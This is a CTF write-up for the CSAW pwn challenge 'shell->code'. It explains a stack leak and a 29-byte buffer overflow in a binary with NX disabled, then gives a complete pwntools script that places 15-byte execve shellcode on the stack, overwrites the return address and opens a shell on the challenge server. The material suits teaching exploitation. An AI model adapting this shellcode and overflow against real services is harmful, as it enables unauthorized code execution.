 ## shell->code 100 (Pwn)

### Solution

The binary doesn't have NX enabled, it first ask for two 15 bytes input on stack, and then ouput the address of node2 on stack (leak), finally ask for your initials and has a 29 bytes buffer overflow.

For these 29 bytes, the return address starts at `buf+11` and we can easily overwrite and return to the shellcode on stack, the problem is we have only 15 bytes for each buffer, not sufficient for a full `execve()` shellcode, and the leak comes after we input our shellcodes, so we can't chain the buffers together.

Finally I put "/bin/sh" after the return address, and making the shellcode fit inside 15 bytes.

### Exploit
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9005)

sc = """
    mov rdi, rsp
    /* call execve('rsp', 0, 0) */
    push (SYS_execve) /* 0x3b */
    pop rax
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
"""
r.sendline(asm(sc))
r.sendline("x")
r.recvuntil("node.next: ")

leak = int(r.recv(14)[2:], 16)
r.sendline(b"a" * 11 + p64(leak + 0x28) + b"/bin/sh\x00")
r.interactive()
```

### Flag

```
flag{NONONODE_YOU_WRECKED_BRO}
```
